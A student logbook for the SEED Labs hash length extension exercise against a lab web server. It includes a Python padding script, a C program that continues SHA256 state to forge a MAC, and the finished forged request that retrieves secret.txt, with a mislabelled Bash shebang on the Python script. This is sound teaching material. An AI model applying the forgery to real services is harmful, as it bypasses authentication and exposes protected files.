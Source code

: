 # Seedlab Week #10 (Hash Length Extension)

# Task 1: Send Request to List Files

For this first task, the goal is to explore how to send requests to the server and analyze how the server responds to the different requests. To do this, we will create a custom request to list and "download" files from the server.

The structure of the list request is the following: `http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>`, where: 
- `myname` is the first and last name of one of the elements of the group (in this case, we used `MansurMustafin`)
- `uid` is one of the uid obtained from the file `key.txt` (possible values are shown below)
- `lstcmd=1` specifies that the request aims to list the files from the server
- `mac` is calculated using a SHA256 hash on the concatenation of the key (obtained from the `key.txt` file) with the argument part of the request

The contents of the `key.txt` file are the following:
```
1001:123456
1002:983abe
1004:98zjxc
1005:xciujk
```
In this file, the first column represents the UID and the second the key associated with each UID. In our case, we chose the UID `1001`, so will be using the key `123456`. 

After selecting the name and UID, we know that the argument part of the request will be: `myname=MansurMustafin&uid=1001&lstcmd=1`

So, we can already calculate the MAC. The message to hash will have the structure `<key>:myname=<name>&uid=<need-to-fill>&lstcmd=1`, so the result is shown below:

```sh
$ echo -n "123456:myname=MansurMustafin&uid=1001&lstcmd=1" | sha256sum
6c753244a060b48032799ffd31c25503cf976ec840a1c10f6b7f62324ebc87a2
```

To send the request, we just have to place the MAC obtained in the correct field:
```
http://www.seedlab-hashlen.com/?myname=MansurMustafin&uid=1001&lstcmd=1&mac=6c753244a060b48032799ffd31c25503cf976ec840a1c10f6b7f62324ebc87a2
```
This request will be correctly authenticated and we will see the server respond with the following message:

<p align="center" justify="center">
    <img src="./assets/LOGBOOK10/lstcmd.png">
</p>

In order to send the download request to the server, we need to execute the same steps as we did before, but, with an extra parameter in the argument as shown below:
```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1&download=secret.txt&mac=<mac>
```

After the lstcmd, we add the `&download=secret.txt` which will print the contents of the secret.txt file. Choosing the name, UID and key works exactly the same, but calculating the MAC will lead to a slightly different result, as we will have more parameters:
```sh
$ echo -n "123456:myname=MansurMustafin&uid=1001&lstcmd=1&download=secret.txt" | sha256sum
9fa5ff8ec05bc880fb768ba6141c569e3c30911f81ba038da44440a8ba26e15c
```

The final request is constructed exactly the same as the previous one:
```
http://www.seedlab-hashlen.com/?myname=MansurMustafin&uid=1001&lstcmd=1&download=secret.txt&mac=9fa5ff8ec05bc880fb768ba6141c569e3c30911f81ba038da44440a8ba26e15c
```
This request will be correctly authenticated and we will see the server will respond with the following message:

<p align="center" justify="center">
    <img src="./assets/LOGBOOK10/download.png">
</p>

# Task 2: Create Padding

In this second task, we need to calculate the padding for the message request that lists the contents of the server.

According to the RFC6234, the padding of a SHA256 of a message of length L is:
  - one `\x80` byte
  - many `\x00` bytes to pad the contents until the next multiple of 64
  - the last 8 bytes correspond to the **length field** (number of bits in the message M = L * 8)

To help us in this task, we can use a Python script, which performs the following calculations:
1. Obtain the length of the message we will be using (`"123456:myname=MansurMustafin&uid=1001&lstcmd=1"`), which is 46
2. Calculate the total length of the padding, which is 64 - 46 = 18 bytes, including the `\x80` byte and the 8 bytes from the length field (hence the 9 byte offsets in the script)
3. Fill the entire length of the message with `\x00`, and then change the first byte to `\x80`
4. Since the message has a length of 46, it needs L * 8 = 368 bits. This value corresponds to `0x0170` in hexadecimal, so the last values of the padding will be `\x00\x00\x00\x00\x00\x00\x01\x70`

The complete script is as follows:

```py
#!/bin/bash

from math import ceil

message = "123456:myname=MansurMustafin&uid=1001&lstcmd=1"
zeros = ceil((len(message) + 9) / 64) * 64 - len(message) - 9

padding = b'\x80' + b'\x00' * zeros + (len(message) * 8).to_bytes(8, byteorder='big')

print('Padding: "', end='')
for c in padding:
    print(f'\\x{c:02x}', end='')
print('"')

print('Padding (URL ready): "', end='')
for c in padding:
    print(f'%{c:02x}', end='')
print('"')
```

Putting it all together, we end up with the following padding:
```
\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x70
```
Since we will need to add it to the server request, we can already write using `%` instead of `\x` as follows:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%70
```

# Task 3: Length Extension Attack

For this final task, we will use the Length Extension Attack to send a request to download the contents of the file `secret.txt` without using the keys from the first task.

To do this, we will use the base request to list the contents of the file, for which we already know the valid MAC, as well as the padding calculated on the previous task.

The new request will use the following structure:
```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>
```

In order to obtain the new MAC, we will use the following code, whose template is provided in the seedlab files. We just need to replace the values inside the `htole32` calls with our previous MAC and the `SHA256_Update` call to copu the extra message `&download=secret.txt`.

```C
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[]) {
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;

    SHA256_Init(&c);

    // Process initial message (64 bytes of '*')
    for (i = 0; i < 64; i++) {
        SHA256_Update(&c, "*", 1);
    }

    // Set MAC of the original padded message (manual initialization)
    c.h[0] = htole32(0x6c753244);
    c.h[1] = htole32(0xa060b480);
    c.h[2] = htole32(0x32799ffd);
    c.h[3] = htole32(0x31c25503);
    c.h[4] = htole32(0xcf976ec8);
    c.h[5] = htole32(0x40a1c10f);
    c.h[6] = htole32(0x6b7f6232);
    c.h[7] = htole32(0x4ebc87a2);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);

    // Finalize the SHA-256 hash
    SHA256_Final(buffer, &c);

    // Print the resulting hash
    for (i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");

    return 0;
}
```

If we now compile and execute the program, we will receive the new MAC:

```
$ gcc length_ext.c -o length_ext -lcrypto
$ ./length_ext
59ee11daf37c30024ecda58b705d092c9dedb39a3e3f3832f6471b618b641208
```

To complete the request, we just have to fill the parameters:
```
http://www.seedlab-hashlen.com/?myname=MansurMustafin&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%70&download=secret.txt&mac=59ee11daf37c30024ecda58b705d092c9dedb39a3e3f3832f6471b618b641208
```

By sending this request, the server will validate the request and we will see the contents as if we had executed a normal download request.

<p align="center" justify="center">
    <img src="./assets/LOGBOOK10/exploit.png">
</p>
